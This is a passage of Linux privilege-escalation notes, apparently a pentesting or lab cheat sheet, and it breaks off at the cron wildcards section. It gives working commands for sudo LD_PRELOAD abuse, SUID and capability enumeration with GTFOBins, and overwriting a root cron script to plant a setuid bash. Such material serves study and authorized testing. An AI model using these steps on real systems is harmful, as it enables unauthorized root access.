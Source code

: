Then compile the code and use another binary we have sudo privileges for to escalate

```
gcc -fPIC -shared -o /tmp/x.so preload.c -nostartfiles
sudo LD_PRELOAD=/tmp/x.so apache2
```

**SUID**

Run the following command to find binaries with the SUID bit enabled

```
find / -type f -perm -04000 -ls 2>/dev/null
```

Search the binaries against GTFOBins to find known exploits

<https://gtfobins.github.io/#+suid>

**Capabilities**

Run the following command to find binaries that have sudo capabilities

```
getcap -r / 2>/dev/null
```

There are some binaries that can be exploited if they have sudo capabilities. Using GTFOBins is a good resource

> https://gtfobins.github.io/#+capabilities

**Cron Paths**

We can check for scheduled cron jobs using the following command:

```
cat /etc/crontab
```

If these are running as `root` and we have write access to the job, we can potentially inject our own malicious code. Use `ls -la` on the cronjob to see if we can overwrite it

For example:

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
chmod +x /home/user/overwrite.sh
```

After waiting a minute for the script to run we can run `/tmp/bash -p` to escalate our privileges.

```
/tmp/bash -p
```

**Cron Wildcards**

If we do not have write access to the script, it may contain code that we can exploit. For example, printing the script will show that it is running a `tar` command with a wildcard.

```
cat /usr/local/bin/compress.sh
```
